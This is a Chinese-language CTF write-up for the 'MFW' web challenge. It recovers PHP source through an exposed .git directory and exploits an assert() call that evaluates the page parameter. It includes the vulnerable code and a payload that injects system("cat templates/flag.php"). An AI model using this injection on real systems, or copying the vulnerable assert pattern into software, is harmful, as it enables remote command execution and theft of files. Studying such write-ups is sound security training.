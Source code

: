 #### MFW
打开题目，观察网页源码，发现页面可以传入page参数。
```html
<!--仅列出了部分源码位置的源码-->

<div id="navbar" class="collapse navbar-collapse">
    <ul class="nav navbar-nav">
        <li class="active"><a href="?page=home">Home</a></li>
        <li ><a href="?page=about">About</a></li>
        <li ><a href="?page=contact">Contact</a></li>
        <!--<li ><a href="?page=flag">My secrets</a></li> -->
    </ul>
</div>

```
传入的值为flag时并不起作用，于是继续观察其他页面。
![git泄露](./image/About.png "使用了git")

建站借助了git，怀疑可能存在git泄露。

访问http://111.198.29.45:45709/.git/，果然可以访问。

借助githack工具（目前只支持python2）得到了部分源码。
```
githack用法: python GitHack.py httpxxxxxxx/.git
```
```php
<?php
#index.php部分源码
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

assert("strpos('$file', '..') === false")
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
templates文件夹中包含about.php，flag.php等内容，但flag.php里的是空的。可能是因为还原的源码版本比较老（当然是出题人故意的）。

为了能查看flag.php，可能需要借助一些函数，比如文件读取，命令执行等。接着分析index.php寻找可以利用的地方。
该文件使用了断言函数assert，可以起到将其中的内容作为命令进行执行的作用。

这里可以构造一个特殊的page参数。
```txt
?page=about.php','..')===false and system("cat templates/flag.php")and strpos('666
```

得到flag
```html
<?php $FLAG="cyberpeace{4e2e382383a12e2c30bb9e8efa43b99f}"; ?>
That file doesn't exist!
<!--不太理解PHP代码为什么在浏览器中不显示，被注释了，而查看源码又没有了注释符号
可能 是为了安全？？？
-->
```